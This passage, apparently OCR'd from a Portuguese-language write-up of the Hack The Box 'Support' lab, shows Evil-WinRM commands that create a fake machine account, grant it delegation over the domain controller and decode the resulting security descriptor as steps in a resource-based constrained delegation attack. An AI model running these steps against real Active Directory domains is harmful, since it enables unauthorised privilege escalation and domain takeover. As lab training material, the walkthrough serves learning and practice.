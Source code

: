 ```powershell
badpwdcount            : 0
cn                     : FAKE01
useraccountcontrol     : WORKSTATION_TRUST_ACCOUNT
whencreated            : 1/10/2024 3:55:49 PM
primarygroupid         : 515
iscriticalsystemobject : False
usnchanged             : 86100
dnshostname            : FAKE01.support.htb
```

​	Com o nome do usuário, podemos dar permissão de privilégios de delegacão ao mesmo e verificar se deu certo.

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE01$
*Evil-WinRM* PS C:\Users\support\Documents> Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount


DistinguishedName                    : CN=DC,OU=Domain Controllers,DC=support,DC=htb
DNSHostName                          : dc.support.htb
Enabled                              : True
Name                                 : DC
ObjectClass                          : computer
ObjectGUID                           : afa13f1c-0399-4f7e-863f-e9c3b94c4127
PrincipalsAllowedToDelegateToAccount : {CN=FAKE01,CN=Computers,DC=support,DC=htb}
SamAccountName                       : DC$
SID                                  : S-1-5-21-1677581083-3380853377-188903654-1000
UserPrincipalName                    :
```

​	O comando **Set-ADComputer** é responsável por dar a permissão ao usuário, enquanto o comando **Get-ADComputer** serve para verificar se tudo deu certo. Podemos notar que a propriedade **PrincipalsAllowedToDelegateToAccount** possui o valor **FAKE01**, o que serva para comprovar o êxito.

​	Feito isso, podemos novamente verificar o valor da propriedade **msds-allowedtoactonbehalfofotheridentity **e agora percebemos que existe um valor em bytes.

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer DC | select msds-allowedtoactonbehalfofotheridentity

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```

​	Podemos salavar esses valores em uma variável para transaformar os bytes em uma string. Para isso, executamos os seguintes comandos:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> $RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
*Evil-WinRM* PS C:\Users\support\Documents> $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
*Evil-WinRM* PS C:\Users\support\Documents> $Descriptor

ControlFlags           : DiscretionaryAclPresent, SelfRelative
Owner                  : S-1-5-32-544
Group                  :
SystemAcl              :
DiscretionaryAcl       : {System.Security.AccessControl.CommonAce}
ResourceManagerControl : 0
BinaryLength           : 80
```
